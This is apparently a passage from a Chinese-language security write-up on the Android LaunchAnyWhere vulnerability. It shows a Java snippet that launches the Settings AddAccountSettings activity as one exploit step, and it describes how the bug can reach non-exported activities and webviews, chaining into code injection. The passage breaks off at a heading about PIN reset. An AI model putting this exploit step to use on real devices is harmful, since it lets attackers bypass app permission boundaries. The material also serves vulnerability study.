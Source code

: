 ```java
Intent intent1 = new Intent();
intent1.setComponent(new ComponentName("com.android.settings", "com.android.settings.accounts.AddAccountSettings"));
intent1.setAction(Intent.ACTION_RUN);
intent1.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
String authTypes[] = {"自己的账号类型"};
intent1.putExtra("account_types", authTypes);
AuthenticatorActivity.this.startActivity(intent1);
```

这个过程如图Step 0所示：

![launchanywhere2.png](imgs/launchanywhere2.png)

## 应用场景

主要的攻击对象还是应用中未导出的`Activity`，特别是包含了一些`intenExtra`的`Activity`。下面只是举一些简单例子。这个漏洞的危害取决于你想攻击哪个`Activity`，还是有一定利用空间的。比如攻击很多app未导出的`webview`，结合`FakeID`或者`JavascriptInterface`这类的浏览器漏洞就能造成代码注入执行。

### 重置pin码
